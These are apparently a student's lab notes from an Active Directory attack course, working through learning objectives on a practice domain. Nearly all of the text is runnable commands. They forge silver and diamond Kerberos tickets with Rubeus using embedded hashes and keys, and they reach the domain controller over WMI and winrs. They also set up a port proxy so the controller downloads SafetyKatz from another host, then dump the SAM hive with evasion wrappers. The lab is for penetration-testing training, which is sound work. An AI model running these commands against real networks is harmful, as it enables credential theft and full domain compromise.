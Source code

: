 **WMI Service**
- For accessing WMI, we need to create two tickets - one for HOST service and another for RPCSS. Run the below commands from an elevated shell:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:host/dcorp-dc.dollarcorp.moneycorp.local /rc4:70666506174c29e0ee3b230d9a20f7e5 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```
- Inject a ticket for RPCSS:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:rpcss/dcorp-dc.dollarcorp.moneycorp.local /rc4:70666506174c29e0ee3b230d9a20f7e5 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```
- check the ticket via `klist`
- Now, try running WMI commands on the domain controller:
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc
```


---


# Learning Objective - 10

#### Flag - Name of the account who secrets are used for the Diamond Ticket attack
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
- Access the DC using winrs from the new spawned process!
```
winrs -r:dcorp-dc cmd
set username
```


---


# Learning Objective - 11

#### Flag - Name of the Registry key modified to change Logon behavior of DSRM administrator
```
 C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
- In the spawned process, run the following commands to copy Loader.exe to the DC and extract credentials from the SAM hive:
```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y

winrs -r:dcorp-dc cmd

netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "token::elevate" "lsadump::evasive-sam" "exit"
```